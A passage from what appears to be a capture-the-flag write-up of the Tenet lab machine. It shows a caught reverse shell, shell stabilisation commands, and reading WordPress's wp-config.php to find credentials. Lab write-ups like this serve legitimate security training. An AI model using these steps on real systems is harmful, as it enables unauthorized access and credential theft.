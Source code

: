 - Now we receive the shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.10.223] 49860
bash: cannot set terminal process group (1678): Inappropriate ioctl for device
bash: no job control in this shell
www-data@tenet:/var/www/html$ whoami
whoami
www-data
www-data@tenet:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@tenet:/var/www/html$ ^Z
[1]  + 37998 suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + 37998 continued  nc -nlvp 443
                                    reset xterm
ENTER
www-data@tenet:/var/www/html$ export TERM=xterm
```

## neil shell 

- We found credentials..

```bash
www-data@tenet:/var/www/html/wordpress$ ls -la
total 228
drwxr-xr-x  5 www-data www-data  4096 Jul  3 22:57 .
drwxr-xr-x  3 www-data www-data  4096 Jul  4 00:32 ..
-rw-r--r--  1 www-data www-data   405 Feb  6  2020 index.php
-rw-r--r--  1 www-data www-data 19915 Feb 12  2020 license.txt
-rw-r--r--  1 www-data www-data  7278 Jun 26  2020 readme.html
-rw-r--r--  1 www-data www-data  7101 Jul 28  2020 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Dec  8  2020 wp-admin
-rw-r--r--  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rw-r--r--  1 www-data www-data  2328 Oct  8  2020 wp-comments-post.php
-rw-r--r--  1 www-data www-data  2913 Feb  6  2020 wp-config-sample.php
-rw-r--r--  1 www-data www-data  3185 Jan  7  2021 wp-config.php
drwxr-xr-x  5 www-data www-data  4096 Jul  3 22:57 wp-content
-rw-r--r--  1 www-data www-data  3939 Jul 30  2020 wp-cron.php
drwxr-xr-x 25 www-data www-data 12288 Dec  8  2020 wp-includes
-rw-r--r--  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rw-r--r--  1 www-data www-data  3300 Feb  6  2020 wp-load.php
-rw-r--r--  1 www-data www-data 49831 Nov  9  2020 wp-login.php
-rw-r--r--  1 www-data www-data  8509 Apr 14  2020 wp-mail.php
-rw-r--r--  1 www-data www-data 20975 Nov 12  2020 wp-settings.php
-rw-r--r--  1 www-data www-data 31337 Sep 30  2020 wp-signup.php
-rw-r--r--  1 www-data www-data  4747 Oct  8  2020 wp-trackback.php
-rw-r--r--  1 www-data www-data  3236 Jun  8  2020 xmlrpc.php
www-data@tenet:/var/www/html/wordpress$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
```
